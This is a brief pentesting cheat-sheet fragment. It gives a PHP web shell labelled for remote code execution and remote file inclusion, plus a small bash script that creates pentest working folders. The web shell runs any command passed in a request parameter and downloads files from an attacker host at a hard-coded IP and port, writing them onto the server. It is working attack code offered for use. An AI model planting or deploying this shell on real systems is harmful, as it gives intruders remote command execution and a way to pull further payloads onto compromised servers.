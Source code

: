 - RCE and RFI via PHP 
  ```php
    <?php 
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.17.20:8000/" . $_REQUEST['fupload']));
      }
      if (isset($_REQUEST['cmd'])){
        echo system($_REQUEST["cmd"]);
      }	
    ?>
  ```
- mkt script, to create a pentesting folder environment
  ```bash
    #!/bin/bash
    if [[ $# -eq 1 ]]; then
      mkdir -p $1/{nmap,content,exploits,scripts}
      exit 0
    else
      echo "The name of the folder is needed"
      exit 1
    fi
  ```
<br>


  
  

  
